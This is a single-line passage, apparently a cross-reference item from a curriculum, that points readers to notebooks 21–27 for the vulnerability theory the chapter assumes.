- Notebooks 21–27 of this curriculum for the underlying vulnerability theory this chapter assumes.
